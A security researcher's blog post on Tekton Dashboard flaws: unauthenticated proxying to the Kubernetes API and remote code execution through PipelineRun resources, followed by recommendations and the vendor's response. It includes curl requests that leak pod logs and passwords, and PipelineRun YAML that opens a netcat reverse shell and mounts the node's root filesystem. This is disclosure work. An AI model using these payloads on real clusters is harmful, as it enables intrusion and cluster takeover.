




+++
title = 'Tekton Dashboard RCE and Kubernetes API Proxy'
date = 2024-09-03T13:01:44+02:00
draft = true
+++

This is the story of how I found two vulnerabilities in the [Tekton CI/CD Dashboard component](https://github.com/tektoncd/dashboard) that allow remote code execution and a potential node takeover if deployed in `read/write` mode as well as pre-authenticated access to the Kubernetes API server in all modes.

Both vulnerabilities were treated as intended and are thus still exploitable. The documentation was changed and the default mode is now `read-only` instead of `read/write`.


It started when I stumbled upon an unusual finding during an assessment. [Nuclei](https://docs.projectdiscovery.io/introduction) reported either an internet-exposed Kubernetes API server, which is not too uncommon, or an exposed kubelet API. The latter hadn't been observed in our client's scope before, prompting me to investigate further.

### Kubelet
The [kubelet](https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet/) is a binary running on every node thats part of a Kubernetes cluster. It interacts with the container runtime to create the actual containers. These are either based on pods requested by the Kubernetes API or the control plane components themselves, implemented as [static containers](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/). 

The Kubernetes API pod, for example, is defined in `/etc/kubernetes/manifests/kube-apiserver.yaml`:
```yaml 
apiVersion: v1
kind: Pod
metadata:
  annotations:
    kubeadm.kubernetes.io/kube-apiserver.advertise-address.endpoint: 192.168.49.2:8443
  creationTimestamp: null
  labels:
    component: kube-apiserver
    tier: control-plane
  name: kube-apiserver
  namespace: kube-system
spec:
  containers:
  - command:
    - kube-apiserver
    - --advertise-address=192.168.49.2
    - --allow-privileged=true
    - --authorization-mode=Node,RBAC
...
```
By default, the kubelet starts with the `--anonymous-auth` parameter set to `true` and `--authorization-mode` set to `AlwaysAllow`. Consequently, unauthenticated network access to the kubelet's own API grants full control over the containers. Exploitation of this configuration was previously described in [this blogpost](https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster).


Unfortunately, accessing the reported endpoint at `/pods` returned a 404 error, indicating that it was not a kubelet. It could still be a Kubernetes API server but that would require authentication. A quick test revealed the following:

`curl http://tekton-dashboard:9097/api/v1/secrets`:

```json
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "secrets is forbidden: User \"system:serviceaccount:tekton-pipelines:tekton-dashboard\" cannot list resource \"secrets\" in API group \"\" at the cluster scope",
  "reason": "Forbidden",
  "details": {
    "kind": "secrets"
  },
  "code": 403
} 
```

This response strongly resembles a Kubernetes API reply and, more importantly, it appears to be authenticated as the `system:serviceaccount:tekton-pipelines:tekton-dashboard` user. Apparently we are dealing with some pre-authenticated proxying behavior.

## Proxying with Tekton

As indicated by the name of the service account, we were dealing with [Tekton](https://tekton.dev/) and its dashboard component:

> Tekton is a powerful and flexible open-source framework for creating CI/CD systems, allowing developers to build, test, and deploy across cloud providers and on-premise systems.

Rather than immediately reconsidering the attack surface, I decided to investigate the unusual proxying behavior further. I checked the [documentation](https://tekton.dev/docs/dashboard/install/#installing-tekton-dashboard-on-kubernetes) and found that the installation is just a Kubernetes configuration yaml file:

`kubectl apply --filename https://storage.googleapis.com/tekton-releases/dashboard/latest/release.yaml`

This file contains a definition of a `tekton-dashboard` service account and its role bindings. While I didn't review the roles exhaustively, I quickly noticed read access to `pods` and `pods/logs`. This presented a potential quick win because it meant access to container stdout and pod definitions, both of which could contain sensitive information.

Using the pre-authenticated proxying behavior it is indeed possible to view individual containers using:


This artificial example contained a hard-coded secret value, obviously not recommended but nonetheless it happens. The same [mysql image](https://hub.docker.com/_/mysql) used in this scenario could also be started with the `MYSQL_RANDOM_ROOT_PASSWORD` environment variable set. This generates a random password and prints it to stdout, where it is still publicy accessible:

```
$ curl -s http://tekton-dashboard:9097/api/v1/namespaces/default/pods/db/log 
...
2024-09-07 12:10:11+00:00 [Note] [Entrypoint]: Temporary server started.
'/var/lib/mysql/mysql.sock' -> '/var/run/mysqld/mysqld.sock'
2024-09-07 12:10:13+00:00 [Note] [Entrypoint]: GENERATED ROOT PASSWORD: dJZurxd0BGJIPcYPUphZ3QcnWd9IbdxG
...
```

At this point, I had gained access to several credentials and informed the client accordingly.


To see what else we can do with that endpoint lets take a look at the [source code](https://github.com/tektoncd/dashboard/blob/main/pkg/router/router.go). Initially, [client-go's](https://pkg.go.dev/k8s.io/client-go@v0.31.0#section-readme) `InClusterConfig()` is used to get a `config` containing the authentication details of the service account.
```go
func main() {
...
	var cfg *rest.Config
	var err error
	if cfg, err = rest.InClusterConfig();
    err != nil {
		logging.Log.Errorf("Error building kubeconfig: %s", err.Error())
	}
...
	server, err := router.Register(resource, cfg)
...
	l, err := server.Listen("", *portNumber)
...
	logging.Log.Fatal(server.ServeOnListener(l))
}
...
```
That `config` is then used in the [`Register()`](https://github.com/tektoncd/dashboard/blob/main/pkg/router/router.go#L125) function  to create a `proxyHandler` to serve endpoints with paths starting with either `/api/` or `/apis/`.
```go
func Register(r endpoints.Resource, cfg *rest.Config) (*Server, error) {
	logging.Log.Info("Adding Kube API")
	apiProxyPrefix := "/api/"
	apisProxyPrefix := "/apis/"
	proxyHandler, err := NewProxyHandler(cfg, 30*time.Second)
	if err != nil {
		return nil, err
	}
	mux := http.NewServeMux()
	mux.Handle(apiProxyPrefix, proxyHandler) 
	mux.Handle(apisProxyPrefix, proxyHandler)
```

The `proxyHandler` is created via `NewProxyHandler()`. This looks familiar, as it is almost identical to the [code](https://github.com/kubernetes/kubectl/blob/master/pkg/proxy/proxy_server.go#L195) used by kubectl itself when proxying connections to the Kubernetes API (`kubectl proxy`).
```go
func NewProxyHandler(cfg *rest.Config, keepalive time.Duration) (http.Handler, error) {
	host := cfg.Host
	if !strings.HasSuffix(host, "/") {
		host += "/"
	}
	target, err := url.Parse(host)
	if err != nil {
		return nil, err
	}

	responder := &responder{}
	transport, err := rest.TransportFor(cfg)
	if err != nil {
		return nil, err
	}
	upgradeTransport, err := makeUpgradeTransport(cfg, keepalive)
	if err != nil {
		return nil, err
	}
	proxy := proxy.NewUpgradeAwareHandler(target, transport, false, false, responder)
	proxy.UpgradeTransport = upgradeTransport
	proxy.UseRequestLocation = true
	proxy.UseLocationHost = true

	proxyServer := protectWebSocket(proxy) <--

	return proxyServer, nil
}
```
A noticeable change is the addition of `protectWebSocket(proxy)`, this is a protection against cross-origin websocket hijacking, which is irrelevant as we are not constrained by a browser and therefore able to set arbitrary values for the `origin` header. 

Lastly, the [`ServeOnListener()`](https://github.com/tektoncd/dashboard/blob/main/pkg/router/router.go#L183) function is called on the `router.Server` returned by `Register()` which appears to add a CSRF protection:

```go
func (s *Server) ServeOnListener(l net.Listener) error {
	CSRF := csrf.Protect()

	server := http.Server{
		Handler:           CSRF(s.handler),
		ReadHeaderTimeout: 30 * time.Second,
	}
	return server.Serve(l)
}
```
By applying `CSRF()` to the original `http.Handler` inside `router.Server`, a new `csrf` struct is returned which implements the `Handler` interface to wrap `ServeHTTP()`. This will in turn be called by `http.Server.Serve(l)`. Then, for http methods deemed unsafe like `POST`, a hard-coded HTTP header with the name `Tekton-Client` is expected:
```go
func (cs *csrf) ServeHTTP(w http.ResponseWriter, r *http.Request) {
	if _, ok := safeMethods[r.Method]; !ok {
		csrfHeader := r.Header.Get(cs.opts.HeaderName)
		if csrfHeader == "" {
			cs.opts.ErrorHandler.ServeHTTP(w, r)
			return
		}
	}

	cs.h.ServeHTTP(w, r)
}
```

The value of said header does apparently not matter. To be sure we can just set it for all requests regardless of the HTTP method being used. Other than that there were no restrictions.

**To summarize, if someone adhered to best practices and restricted network access to the Kubernetes API server but has a Tekton dashboard exposed to the internet, we can use its proxy to gain almost unrestricted access to the API server again. Additionally we can either bring our "own" credentials or act with whatever privileges the `tekton-dashboard` service account has.**

For convenience I [patched](https://github.com/fl0mb/kubernetes) kubectl to add the `Tekton-Client` header and to allow authenticating when using unencrypted HTTP. Now we can either use the privileges of the `tekton-dashboard` service account:


Or use credentials obtained in another way, for example, service account tokens read via a file inclusion vulnerability in a web application:


### RCE
  
Initially, when I visited the root URL I noticed the following import function:  

  

  
  
If we click through and fill in some dummy data we can generate the following request:

```http
POST /apis/tekton.dev/v1/namespaces/tekton-dashboard/pipelineruns/ HTTP/1.1
Host: 127.0.0.1:9097
Content-Type: application/json
Tekton-Client: tektoncd/dashboard
...
```

Judging by its request line, this request likely creates a PipelineRun resource so let's explore what that could mean.

Because the path starts with `/apis/` we know we are dealing with a [named API group](https://kubernetes.io/docs/reference/using-api/#api-groups). As `tekton.dev` ist not a built-in group we are dealing with either an [aggregated API server](https://kubernetes.io/docs/concepts/extend-kubernetes/api-extension/apiserver-aggregation/) or, more commonly a [custom resource definition (CRD)](https://kubernetes.io/docs/tasks/extend-kubernetes/custom-resources/custom-resource-definitions/). We can find the CRD in the [pipeline repo](https://github.com/tektoncd/pipeline/blob/main/config/300-crds/300-pipelinerun.yaml):

```yaml
apiVersion: apiextensions.k8s.io/v1
kind: CustomResourceDefinition
metadata:
  name: pipelineruns.tekton.dev
  labels:
    app.kubernetes.io/instance: default
    app.kubernetes.io/part-of: tekton-pipelines
    pipeline.tekton.dev/release: "devel"
    version: "devel"
spec:
  group: tekton.dev
  preserveUnknownFields: false
  versions:
  - name: v1beta1
    served: true
    storage: false
    schema:
      openAPIV3Schema:
        type: object
...
```
Custom resource creation requests are validated according to the OpenAPI v3 schema included in their definition. In this case however it does not provide further insights as it only expects a valid JSON object. Luckily, the repository contained some [documentation](https://github.com/tektoncd/pipeline/blob/main/docs/developers/controller-logic.md) indicating that every CRD has a matching go struct at `pkg/apis/pipeline/v1/`:

```go https://github.com/tektoncd/pipeline/blob/main/pkg/apis/pipeline/v1/pipelinerun_types.go
...
// PipelineRunSpec defines the desired state of PipelineRun
type PipelineRunSpec struct {
	// +optional
	PipelineRef *PipelineRef `json:"pipelineRef,omitempty"`
	// Specifying PipelineSpec can be disabled by setting
	// `disable-inline-spec` feature flag..
	// +optional
	PipelineSpec *PipelineSpec `json:"pipelineSpec,omitempty"`
	// Params is a list of parameter names and values.
	// +listType=atomic
	Params Params `json:"params,omitempty"`

	// Used for cancelling a pipelinerun (and maybe more later on)
	// +optional
	Status PipelineRunSpecStatus `json:"status,omitempty"`
	// Time after which the Pipeline times out.
	// Currently three keys are accepted in the map
	// pipeline, tasks and finally
	// with Timeouts.pipeline >= Timeouts.tasks + Timeouts.finally
	// +optional
	Timeouts *TimeoutFields `json:"timeouts,omitempty"`

	// TaskRunTemplate represent template of taskrun
	// +optional
	TaskRunTemplate PipelineTaskRunTemplate `json:"taskRunTemplate,omitempty"`

	// Workspaces holds a set of workspace bindings that must match names
	// with those declared in the pipeline.
	// +optional
	// +listType=atomic
	Workspaces []WorkspaceBinding `json:"workspaces,omitempty"`
	// TaskRunSpecs holds a set of runtime specs
	// +optional
	// +listType=atomic
	TaskRunSpecs []PipelineTaskRunSpec `json:"taskRunSpecs,omitempty"`
}
...
```
A [controller](https://kubernetes.io/docs/concepts/architecture/controller/) in Kubernetes monitors resources it is interested in and it "reconciles" in response to relevant events. That means it changes the clusters state to match the desired state. In this example that could mean creating a specific pod whenever a new PipelineRun is requested. Another controller, the kube-scheduler, notices the requirement of a new pod and goes on to schedule it to a node.

Therefore, to understand the PipelineRun resource we have to check its reconciler implementation at `pkg/reconciler/pipelinerun/pipelinerun.go`.

Before diving into the code I wanted to take a break and play around with the functionality first. While doing so I noticed the "Edit an run" button of my existing PipelineRun. It presented a nicely readable and editable yaml file containing the definition of my PipelineRun resource:



Obviously the `script` key spiked my interest and it was indeed possible to leverage it to execute arbitrary commands so I went for a shell with:

```yaml
script: >
  #!/usr/bin/env sh

  busybox nc 192.168.58.1 8000 -e /bin/sh
```

RCE is nice but I thought this looks a lot like a normal pod definition, can it do anything malicious like mounting the nodes filesystem?

I tried to get a minimal PipelineRun by repeatedly removing potentially unimportant lines until it breaks, which finally led me to:

```yaml
apiVersion: tekton.dev/v1
kind: PipelineRun
metadata:
  generateName: import-resources-1727367416567-2nr95-r-
  namespace: tekton-dashboard
spec:
  pipelineSpec:
    tasks:
      - name: fetch-repo
        taskSpec:
          metadata: {}
          spec: null
          steps:
            - computeResources: {}
              image: busybox:latest
              name: clone
              script: |
                #!/usr/bin/env sh 
                busybox nc 192.168.49.1 8000 -e /bin/sh
  taskRunTemplate:
    serviceAccountName: default
```

Pretending this is just a pod we could mount the hosts filesystem with:
```yaml
apiVersion: tekton.dev/v1
kind: PipelineRun
metadata:
  generateName: import-resources-1727367416567-2nr95-r-
  namespace: tekton-dashboard
spec:
  pipelineSpec:
    tasks:
      - name: fetch-repo
        taskSpec:
          metadata: {}
          spec: null
          steps:
            - computeResources: {}
              image: busybox:latest
              name: clone
              script: |
                #!/usr/bin/env sh 
                busybox nc 192.168.49.1 8000 -e /bin/sh
              volumeMounts:
                - mountPath: /var/noderoot
                  name: noderoot
          volumes:
            - hostPath:
                path: /
              name: noderoot
  taskRunTemplate:
    serviceAccountName: default
```

And indeed it was possible to access the nodes file system, which is usually enough to compromise the whole cluster:


Interestingly this is only possible in the `tekton-dashboard` namespace (and every other non-secured namespace). Both the `tekton-pipelines` and the `tekton-pipelines-resolvers` namespaces have the [pod security standards](https://kubernetes.io/docs/concepts/security/pod-security-standards/) profile `Restricted` applied:


### Summary
A internet exposed Tekton dashboard allows direct access to the Kubernetes API. This access is pre-authenticated with the privileges of the `tekton-dashboard` service account which, regardless of the deployment mode, allows access to pod definitions and container stdout by default. It is also possible to provide your own credentials for the Kubernetes API and if the dashboard is deployed in `read/write` mode it enables remote code execution.

### Recommendation
- Do not expose your dashboard to the internet. If needed require prior authentication as described [here](https://github.com/tektoncd/dashboard/blob/main/docs/install.md#access-control).
- Deploy your dashboard in `read-only` mode.
- Limit the privileges of the `tekton-dashboard` service account.
- Configure pod security standards for the whole cluster.

### Vendor Reaction
The issue was communicated to the Tekton security team in July 2024. They came to the conclusion that the issue lies primarily in the documentation,because the tutorial did not mention the different modes and installation defaulted to the `read/write` mode.

A Github security advisory was opened, the documentation improved and the default mode was changed to `read-only`. Other than that they referred to best practices. 

There are not additional warnings or changes for the central [pipelines repo](https://github.com/tektoncd/pipeline).
